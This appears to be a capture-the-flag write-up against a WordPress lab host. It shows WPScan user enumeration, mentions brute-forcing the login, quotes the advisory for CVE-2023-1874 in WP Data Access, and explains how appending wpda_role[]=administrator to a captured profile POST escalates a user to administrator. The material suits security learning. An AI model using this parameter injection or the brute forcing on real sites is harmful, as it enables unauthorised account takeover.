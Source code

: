 We can access the web page via /wordpress/ on the IP. 

We also found the wp-admin login page, running wp-scan I found these two usernames: 

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] XXXXX
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.72.131/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
[+] XXXXX
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```


Brute forcing the login page via python (or hydra), I was able to obtain the credentials to use  to then login via XXXX.


I ran wp-scan which led me to finding this vulnerability on packet security following collaborative research into vulnerabilities. 

Packet Security: https://packetstormsecurity.com/files/171825/WordPress-WP-Data-Access-5.3.7-Privilege-Escalation.html

```
Description: WP Data Access <= 5.3.7 – Authenticated (Subscriber+) Privilege Escalation 
Affected Plugin: WP Data AccessPlugin Slug: wp-data-accessAffected Versions: <= 5.3.7CVE ID: CVE-2023-1874CVSS 
Score: 7.5 (High)CVSS Vector:  CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:HResearcher/s: Chloe Chamberland Fully Patched Version: 5.3.8


The WP Data Access plugin for WordPress is vulnerable to privilege escalation in versions up to, and including, 5.3.7. This is due to a lack of authorization checks on the multiple_roles_update function. This makes it possible for authenticated attackers, with minimal permissions such as a subscriber, to modify their user role by supplying the ‘wpda_role[]‘ parameter during a profile update. This requires the ‘Enable role management’ setting to be enabled for the site.
```


In the request I captured, all I needed to do was append the `wpda_role[]=administrator` parameter to the POST data where the other form fields (like `first_name`, `last_name`, etc.) are being submitted. 
### Original POST Data:
```plaintext
_wpnonce=ddd142855f&_wp_http_referer=%2Fwordpress%2Fwp-admin%2Fprofile.php&from=profile&checkuser_id=2&color-nonce=bc3e321271&admin_color=fresh&admin_bar_front=1&first_name=bob&last_name=bob&nickname=bob&display_name=bob+bob&email=bob%40localhost.com&url=&description=hiiii&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile
```
